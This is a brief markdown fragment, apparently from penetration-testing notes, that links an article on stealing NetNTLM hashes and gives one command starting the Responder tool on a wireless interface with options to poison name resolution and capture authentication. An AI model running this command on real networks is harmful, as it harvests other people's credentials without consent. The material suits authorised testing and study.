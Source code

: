 # References
* [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

# Start responder
```console
responder -I wlan0 -vwfFP
```
